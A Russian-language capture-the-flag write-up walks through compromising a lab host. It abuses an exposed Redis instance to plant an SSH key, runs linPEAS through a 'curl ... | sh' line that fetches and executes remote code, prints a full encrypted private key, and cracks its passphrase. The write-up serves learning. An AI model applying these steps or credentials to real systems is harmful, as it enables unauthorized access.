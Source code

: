 итак начнём

для начала просканируем порты:
![](./imgs/nmap.jpg)
так, мы выяснили что у нас открыты порты:
22 и 2222 - для доступа по ssh (нам пока не интересен , т.к у нас нет ни пароля, ни ключа)
80(http) и 443(https) (тоже не интересно (принадляжат какомуто сайту))
6379 - redis (а вот это уже интересно)

так мы узнали что здесь стоит БД-redis , при этом нам даже дали пароль к ней: surctfredis
а теперь нам нужно узнать как к ней подключиться:
![](imgs/redis_how_to_connect.jpg)
так теперь нам нужно установить redis-tools , в котором есть утилита redis-cli для подключения к БД redis:
![](imgs/redis_tools_install.jpg)
теперь можно попробовать подключиться:
![](imgs/rediscliconn.jpg)
ураа мы подключились, но что дальше?
дальше нам нужно найти RCE эксплойт (Remote Code Execution):
![](imgs/redisrceexplotation.jpg)
![](imgs/how_to_add_your_public_sshkey.jpg)
для начала сгенерируем свой SSH ключик
![](imgs/sshkeygen.jpg)
затем закинем его в файлик перед этим добавив в него пустые строки в начале и в конце, а также импортируем его в redis:
![](imgs/savepubkeyastxtwithnewlines_and_importthemtoredis.jpg)
есть, мы сохранили наш ключик в ключ(переменную) с названием ssh_key
теперь снова подключимся к редису и попробуем сменить нашу директорию на .ssh/ , у пользователя redis:
![](imgs/redissetconfigdirtosshfolderfailure.jpg)
не получилось из-за того что конфиг защещён
ладно тогда посмотрим где мы есть:
![](imgs/configsshNICE.jpg)
оо дак здесь по дефолту стоит папка с ключами , ничёсе.
тогда просто сохраним и проверим наш ключик: 
![](imgs/YeahWeDidIt.jpg)
вроде получилось , попробуем подключиться по ssh c нашим ключиком:
![](imgs/NiceSSH.jpg)
есть ураааа , мы подключены.
теперь нам нужно повысить свои привелегии.
есть такая утилита- linPEAS, она нужно чтобы посмотреть возможные уязвимости [ссылка](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS):
Вот команда для быстрого старта linPEAS 
>  curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

ну что запускаем и смотрим.
где то в серидине она выдала нам ключик от пользователя test:
![](imgs/sshbackupkeyfound.jpg)
сохраним его командой:
>echo "-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,6DE64BB52B779C56DC5B28F04988FB4C
>
>+eGzLWPQCs2RC0gu94QzDHLJEsck9qkm5LgqOAoHGjrShGtb80XODWHdzE+PADUL
r4dUdfhV4+n+udALipoaYcwYDZnqUzBqSRjG9/4baisuoYK6PNki8kXm5JAbv5gG
8bSwCKITctOHX57340RNsEdZPYjz0bDzRTd1Bqv5OALChtBxXrzxIG41Ud6ydpgQ
kR4Xjq2l0j58sUOkDPkyTwBvy/gWenMcKYBDEPNTbaSZkstqJXBKGsSGhmLlUhEB
em01BwMAVbZROr22XkbIjEiXwPNgSMKFaCI+mShB4/KiflogZWPqdE0MYOTiVPuK
J1zAfYf7fi85Dj9XjEJicmE/6TkY1VdSj6n8XcIrxcghXt5Lbfi5LR7k5khh+P1d
qBFhgAy3hGEJzx+zFWMXfbgxVs8gN9BuJtJDcAj6t6zJrJ+UMAPGwfq+u/csem/T
AQPCJA2En/iRfzCYmqnFw9A7jCXzvUhyhKw6/idxZDQ8jf8hv0cVCeZPHcU2RlzB
+30s0P81C2LOGNmyR5K/9qPBjTnTYoCReUtMbmzoFqApTCF20EzGWFAMwIaOYfBJ
bnBf9m8QK1l0omDOhc2n4wO0+p+6lHlflUbURqJiuDkHgqVIluX+c5sCprzmAp8Z
9DucdBhkDujj3NVN5VKN47v8TI9u0lGqbFJx3qLDhAFyizAJovSrC/VXAFm9wQc/
13Z+xmQ1QKcYVfOsF50orVjhYQe1xrxEeCToagH+1aMFbqpVW35hA05gGWcLkr78
tolI4IOaOhjbcvMmv+FyZXWQPhrfnj0EWpVy5mvK7CdyQKJqpUqCqqmgwJcG3Kbe
bwsr/SInYdhHPHINcZDuq/ik55ekk6RMRAPcfpYuMOjKDKzHqzCoj1oFT3UrYaAR
w37GGqknQi1DJDHTc+slsx7YFFPlUBA9/m9kxXg0DyiAHLiuv5pxeBjRXM52YPSh
fa255QTwfiNCQeixUauxjQcIR2JRJnMjRpefKdt/xdGEBwNrKJdLP38olZNV+TNs
lzzZkw72YhDfUfWxAMNW48JDK96V+uaHc0WrX5HadzIx/mlueBH2tG/PJNDKaXAf
ri+v8N0MZhBlqeNweGhBUMOL87OiSd2zV2sWHsGF/V+ociC0PjBUR3XrNd6YKQM0
4p1yDWfmkFqAmd/+Bf9t+wvGvEgkAl0JY1nuc69mSKmI+CRbBnG4lvcDq6h5sX66
VwqUugTQtQUzHrnaGy46AK/a199F21wnSsLXWGBCFSIjgQ2rGDEMmwc09PYCuH1L
xsTYTXpq0R1ZQkwK/eX3MSBTTcYvMLt13Rukz2YhLt6gFvw3bAVx9hYAeIV36/Fd
/hdzSXQ86DbIr7v839gTX5CO0+OsMzukHfqg1SCvB3BFLu4SEmvBD5pmTy6LGIjt
HZKz2Al0YUSrpV0rwEsQ2701S9VHnDPpTeeUsJFuLOq3792F308q7n6BJHby++my
N/q2JNbjSmmlUcJPttlV8C9cyTCEXpM1lnz8HHyJPvUvfmX2frB1BdHPKKb5SrjZ
Ujf6vp7pIjsgq9nEVCSIqymqde3mBrTEEB4qS0hTn/fSu27PcYeuiDh07XQ9FX6W
-----END RSA PRIVATE KEY-----" > hellokey

![](imgs/keyssh.jpg)

поменяем ему права доступа на 600 и попробуем подключиться:
![](imgs/sshtrytoconnectfixpermissionsandpassword.jpg)
о нет он зашифрован , будем брутфорсить.
для начала распакуем словарь rockyou, в kali linux он по умолчанию находится в /usr/share/wordlists/rockyou.txt.gz :
![](imgs/unpackdefaultrockyouinkali.jpg)
теперь переделаем наш ключ в хэш для john:
![](imgs/ssh2john.jpg)
и теперь можно брутить:
![](imgs/bruteforce.jpg)
так теперь мы знаем пароль от ключа, попробуем подключиться по ssh с паролем - pokemon, и взять флаг в user.txt:
![](imgs/connect_ls_catusertxt_and_getflag.jpg)
Урра наш флаг:
>surctf_f1rst_p3ntest